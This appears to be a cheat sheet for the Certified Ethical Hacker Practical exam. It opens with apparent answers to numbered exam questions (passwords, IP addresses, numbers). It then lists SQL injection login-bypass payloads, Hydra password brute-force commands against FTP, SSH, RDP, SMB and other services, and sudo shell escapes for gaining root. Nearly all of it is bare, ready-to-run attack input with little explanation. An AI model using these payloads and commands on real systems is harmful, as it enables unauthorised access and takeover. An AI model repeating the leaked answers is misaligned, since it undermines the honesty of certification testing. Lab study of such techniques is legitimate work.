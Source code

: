 Q-7
Secret123


Q-20 
ip ADDRESS 172.16.0.40

Q-4 
pass- test
4700056

Q-5 450989878899 

Q-12 F/N 201010988818

Q19 ANDERIOD
 IP 172.16.0.38

1876890


### Windows accounts find:
open the windows cmd
```
$ net user
```
### Host finder:
  Zenmap
 
### FTP Burteforce:
pass wordlist in the windows system. After the login FTP server

### Nmap Command:

$ nmap IP -sV -sC -p -O

### RDP Remote Desktop Connectiom

which IP remote machine service is running?
```
$ nmap IP -sV
```
## SQL Injection:
cookie based sql

### HTTP Vulnerability:
which http request has vulnerability?
```
$ use owaspzap  GET/POST
```
### Cryptography
```
cryptool
BCtextencoder
hash calc
veracrypt

https://book.thegurusec.com/certifications/certified-ethical-hacker-practical/cryptography
```
### SQL payloads
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```
### Hydra
```
    hydra -l root -P passwords.txt [-t 32] <IP> ftp
    hydra -L usernames.txt -P pass.txt <IP> mysql
    hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
    hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
    hydra -P common-snmp-community-strings.txt target.com snmp
    hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
    hydra -l root -P passwords.txt <IP> ssh
 ```
### Making custom wordlist from website keywords:
   $ cewl example.com -m 5 -w words.txt
   
   m= pass lenght
   w= output file
### wireshark
https://unit42.paloaltonetworks.com/using-wireshark-display-filter-expressions/

### Root privilege Escln
  ```
  $ sudo man man
  $ !/bin/bash
  $ sudo awk 'BEGIN {system("/bin/bash")}'
```
